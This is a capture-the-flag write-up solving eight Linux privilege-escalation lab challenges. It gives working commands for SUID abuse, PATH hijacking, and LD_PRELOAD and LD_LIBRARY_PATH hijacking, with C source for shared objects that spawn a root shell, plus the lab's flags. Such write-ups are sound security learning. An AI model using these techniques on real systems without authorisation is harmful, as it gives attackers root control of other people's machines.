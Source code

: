 # Privelege Escalation Laboratory 2

### This writeup contains the solving steps of all the prvelege escalation challenges from codwer.academy.

## Privesc1

![image](https://github.com/cbr1N/codwer/assets/95069685/e5edacbe-cba4-4269-8594-1c49e55d6a07)

Firstly we access a container running on a Linux machine using the given IP address and port. We also have the username and password that are configured for SSH access. This will be the first step for the other challenges too.

![image](https://github.com/cbr1N/codwer/assets/95069685/f0b16503-11a1-4912-a7cc-4d175fd94473)

As we can see `/usr/bin/find` has the SUID set to it. We can exploit this and gain root access.

![image](https://github.com/cbr1N/codwer/assets/95069685/09d4696a-5239-405e-8a24-e21387692d2e)

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

```
ls -la /usr/bin/find
./find . -exec /bin/sh -p \; -quit
whoami
cat /flag.txt
```
**flag: CWA{F1r5t_5U1D_D0N3}**

## Privesc2

![image](https://github.com/cbr1N/codwer/assets/95069685/ea0ec194-8a1d-448e-ad57-b710903254a0)

![image](https://github.com/cbr1N/codwer/assets/95069685/87373ef0-5f6c-4b35-bfe4-0b31f26feb18)

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges.

Each input line is treated as a filename for the file command and the output is corrupted by a suffix : followed by the result or the error of the operation, so this may not be suitable for binary files.

```
ls -la /usr/bin/file
LFILE=/flag.txt
file -f $LFILE
```

**flag: CWA{G01NG_5TR0NG_K33P_1T_UP}**


## Privesc3

![image](https://github.com/cbr1N/codwer/assets/95069685/bc348785-5e18-4dfb-a312-6c5e29ab372c)

![image](https://github.com/cbr1N/codwer/assets/95069685/6bf9b740-1aab-4469-824f-4e302762faf1)

This can copy SUID permissions from any SUID binary (`cp` itself) to another. `cp` has user read permission so by copying it to the `flag.txt` file copy that we will create in `/tmp`, we gain read permission to that file. 

```
ls -la /usr/bin/cp
LFILE=/flag.txt
cp "$LFILE" /tmp/flag
/usr/bin/cp --attributes-only --preserve=all /bin/cp /tmp/flag
cat /tmp/flag
```

**flag: CWA{ST1LL_G01NG_5TR0NG_K33P_1T_UP}**

## Privesc4

![image](https://github.com/cbr1N/codwer/assets/95069685/3a077765-b9ce-44f2-b2f0-0bc25422892e)

Here we have the SUID set to head. That means that we can run head on any restricted file and it will show us its content.

```
ls -la /usr/bin/head
LFILE=/flag.txt
head "$LFILE"
```

**flag: CWA{0N3_M0R3_SU1D_L3FT}**

## Privesc5

![image](https://github.com/cbr1N/codwer/assets/95069685/02ca44d2-e9ca-4737-937d-dd9377c8c8ee)

As in other instances the `/usr/bin/awk` command has the SUID bit set so we can exploit it. We use a read file exploit to gain the contents of `/flag.txt`.

```
ls -l /usr/bin/awk
awk '//' /flag.txt
```

**flag: CWA{FLY_H1GH_L1K3_4_H4WK}**

## Privesc6

![image](https://github.com/cbr1N/codwer/assets/95069685/99601f0a-ed78-474a-a057-a1e968d5b1ce)

We can see that the `run_me` has SUID set to it.

![image](https://github.com/cbr1N/codwer/assets/95069685/354ea433-bf86-4c95-a717-d4108df8172b)

By creating a malicious `ps` script, we are taking advantage of the fact that `run_me` likely calls `ps` without specifying its full path, relying on the `PATH` environment variable.
Prepending `/tmp` to `PATH` ensures that our malicious `ps` script is executed instead of the system `ps` command.
This method works if `run_me` is running with elevated privileges, allowing our script to inherit these privileges and spawn a root shell.

```
ls -l ./run_me
echo '#!/bin/bash' > /tmp/ps
echo '/bin/sh' >> /tmp/ps
chmod +x /tmp/ps
export PATH=/tmp:$PATH
./run_me
whoami
cat /flag.txt
```

**flag: CWA{K33P_Y0UR_P4TH_FULL}**

## Privesc7

![image](https://github.com/cbr1N/codwer/assets/95069685/eb07f96d-154e-441b-8e71-d42702feb046)

This line `env_keep+=LD_PRELOAD` means that when a user executes a command with `sudo`, the `LD_PRELOAD` environment variable will be preserved.

![image](https://github.com/cbr1N/codwer/assets/95069685/de4af3cc-f87e-406d-a705-8b6db3da8a44)

When a program is running, `LD_PRELOAD` loads a shared object before any others. By writing a simple script with `init()` function, it will help us execute code as soon as the object is loaded. Then we run one of the programs you are allowed to run via `sudo`, in our case `apache2`, while setting the `LD_PRELOAD` environment variable to the full path of the new shared object.

```
sudo -l
touch preload.c
nano preload.c
cat preload.c
gcc -fPIC -shared -nostartfiles -o /tmp/preload.os /home/codwer/preload.c
sudo LD_PRELOAD=/tmp/preload.os apache2
whoami
cat /flag.txt
```
`preload.c` script:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{PR3L04D_Y0UR_L1BR4R135}**

## Privesc8

![image](https://github.com/cbr1N/codwer/assets/95069685/14ed8a1d-e0b9-4914-9e99-f5904a0beb3e)

![image](https://github.com/cbr1N/codwer/assets/95069685/4bb582be-68e1-43b8-9961-d961ce38ec96)

The `LD_LIBRARY_PATH` contains a list of directories which search for shared libraries first.
Use one of the shared objects in the list and we will hijack it by creating a file with same name. We will be targeting the `libcrypt.so.1 file`.

![image](https://github.com/cbr1N/codwer/assets/95069685/160d397a-db5c-44d3-92ae-9e543b59b717)

The next steps are identical to the previous example.

![image](https://github.com/cbr1N/codwer/assets/95069685/3720bafc-c7f0-447f-b2ce-64c08f04e2b9)

And finally, we run `apache2` using `sudo`, while settings the `LD_LIBRARY_PATH` environment variable to `/tmp` (where compiled shared object is located).

```
ldd /usr/sbin/apache2
touch library.c
nano library.c
cat library.c
gcc -o /tmp/libscrypt.so.1 -shared -fPIC /home/codwer/library.c
sudo LD_LIBRARY_PATH=/tmp apache2
whoami
cat /flag.txt
```
`library.c` script:
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{KN0W_480U7_LD_L18R4RY_P47H}**

## Lessons learned
During these tasks I have learned how to exploit the SUID bits set to different commands and exploit them. Also I found out what `env_keep` does and how to exploit it. 
And on top of that I have found out about new privelege escalation techniques, gaining more knowledge about the Linux OS itself.

## Useful links
- [https://www.redhat.com/sysadmin/suid-sgid-sticky-bit]

- [https://gtfobins.github.io/#+suid]

- [https://vk9-sec.com/privilege-escalation-linux-path-hijacking/#:~:text=Linux%20path%20hijacking%2C%20also%20known,code%20or%20gain%20elevated%20privileges.]
